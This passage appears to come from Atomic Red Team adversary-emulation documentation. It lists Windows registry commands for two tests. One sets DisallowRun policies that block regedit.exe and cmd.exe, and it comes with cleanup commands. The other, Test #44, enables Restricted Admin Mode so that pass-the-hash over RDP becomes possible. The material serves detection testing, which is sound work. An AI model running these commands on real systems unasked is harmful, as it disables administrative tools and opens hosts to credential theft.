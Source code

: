 **Supported Platforms:** Windows


**auto_generated_guid:** 71db768a-5a9c-4047-b5e7-59e01f188e84






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg add HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v DisallowRun /t REG_DWORD /d 1 /f
reg add HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\DisallowRun /f /t REG_SZ /v art1 /d "regedit.exe"
reg add HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\DisallowRun /f /t REG_SZ /v art2 /d "cmd.exe"
```

#### Cleanup Commands:
```cmd
reg delete HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v DisallowRun /f >nul 2>&1
reg delete HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\DisallowRun /v art1 /f >nul 2>&1
reg delete HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\DisallowRun /v art2 /f >nul 2>&1
```





<br/>
<br/>

## Atomic Test #44 - Enabling Restricted Admin Mode via Command_Prompt
Enabling Restricted Admin Mode via Command_Prompt,enables an attacker to perform a pass-the-hash attack using RDP.

See [Passing the Hash with Remote Desktop](https://www.kali.org/blog/passing-hash-remote-desktop/)

**Supported Platforms:** Windows


**auto_generated_guid:** fe7974e5-5813-477b-a7bd-311d4f535e83






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg add "hklm\system\currentcontrolset\control\lsa" /f /v DisableRestrictedAdmin /t REG_DWORD /d 0
```
